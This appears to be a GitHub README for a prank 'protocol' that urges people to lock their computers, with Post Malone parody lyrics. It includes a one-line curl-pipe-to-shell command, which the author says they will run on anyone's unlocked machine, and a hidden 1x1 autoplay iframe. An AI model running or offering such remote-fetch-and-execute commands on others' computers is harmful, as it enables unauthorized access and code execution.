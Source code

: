 # This is PSA

```
It's a moment when I show up, got 'em sayin', "Wow" (Wow, wow)
```

Don't worry, I haven't done anything _too_ bad.

It's very simple to lock your computer before getting up and going somewhere else without it. Unfortunately, not many people do this. What a shame.

On Macs, it's as simple as `cmd + ctrl + q`.

On Windows, it's as simple as `win + L`.

This is my declaration (to the tune of Sunflower by Post Malone):

```
Needless to say, I keep it in git
Security boo boo, nevertheless (yeah)
Callin' a shell script, baby, you'll be hacked (hacked)
Check your background, baby, you've been hacked (hacked)
```

I will run this if you leave your computer unlocked and walk away:

```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/chrisarevir/malone-protocol/master/protocol.sh)"
```

While we may be getting more secure to cyber-based espionage, there's nothing that beats a little social engineering. Letting the wrong person get physical access to your computer can be harmful, even if not immediately apparent.

```
http://bit.ly/g-wagon
```

<iframe
  width="1"
  height="1"
  src="https://www.youtube.com/embed/4jArvf14WvE?autoplay=1"
  frameborder="0"
  allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
  allowfullscreen
>
</iframe>
